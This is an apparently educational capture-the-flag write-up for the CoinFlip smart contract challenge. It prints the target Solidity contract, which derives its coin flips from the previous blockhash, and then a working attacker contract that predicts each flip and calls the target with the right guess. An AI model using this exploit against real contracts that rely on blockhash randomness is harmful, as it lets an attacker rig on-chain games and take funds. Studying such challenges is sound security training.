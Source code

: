 ## CoinFlip Challenge

### The Goal of this challenge is to find the correct answer within the two flips 10 times consecutively!

Smart Contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }

}
```
#### Problem Approach: 

- We want to hack this smart contract by sending a malicious transaction to it by creating another smart contract. So let's go ahead and do that.

- In the first part i will pick up the FACTOR state variable from the contract itself so that the functions execute correctly.

- Next I will create a constructor and pass in the contract address in the targetted contract variable so that we can call functions on the contract we want to hack.

- 

```
contract HackCoinFlip {

uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
CoinFlip private immutable target;

constructor(address _target) {
    target = CoinFlip(_target);
}

}
```

- Now Let's copy the code that chooses the side and the guess and return the guess in a new function in our Hack Contract.

```
function guess() private view returns(bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
}
```

- This will either return true or false but the way we are going to hack the contract is us running a require statement that will only be executed when the returned side is true.

- So let's write a new function called flip and call the flip function from the contract we want to hack and implement the hacking.

```
function flip() external {
    bool _guess = guess();
    require(target.flip(_guess) == true, "RETURNED WRONG GUESS!!!");
}
```
And there you have it! If you were to call this function it would always return the correct guess.


### Another approach idea, What if we kept sending true and got true everytime???